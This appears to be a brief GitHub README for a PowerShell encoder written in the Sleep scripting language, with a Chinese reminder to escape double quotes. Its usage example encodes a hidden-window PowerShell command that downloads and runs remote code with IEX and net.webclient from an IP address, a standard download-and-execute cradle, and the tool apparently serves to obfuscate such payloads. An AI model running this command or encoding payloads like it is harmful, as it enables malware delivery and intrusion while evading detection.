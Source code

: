 # Sleep_powershell_encoder
powershell encoder wiritten by Sleep
##usage：
java -jar sleep.jar powershell_encoder.sl "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.135:80//awww'))\""
！不要忘记转译powershell命令中的双引号！
![image](https://user-images.githubusercontent.com/38530231/137760133-01106b3e-a359-41c9-9de4-3e77c7eb5309.png)
